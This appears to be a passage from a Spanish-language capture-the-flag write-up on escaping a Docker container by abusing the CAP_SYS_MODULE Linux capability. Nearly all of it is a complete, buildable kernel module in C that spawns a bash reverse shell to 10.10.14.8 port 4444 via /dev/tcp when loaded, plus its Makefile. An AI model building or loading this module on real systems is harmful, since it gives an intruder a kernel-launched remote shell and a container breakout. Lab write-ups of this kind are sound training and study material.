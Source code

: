 <figure><img src="../.gitbook/assets/voyage/sysmo.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_module:~:text=abusing%20this%20privilege.-,Example%20with%20environment%20(Docker%20breakout),-You%20can%20check" %}

Creamos un archivo en C denominado `reverse-shell.c`.

```
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.8/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);

```

Creamos un archivo `Makefile`

```
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```
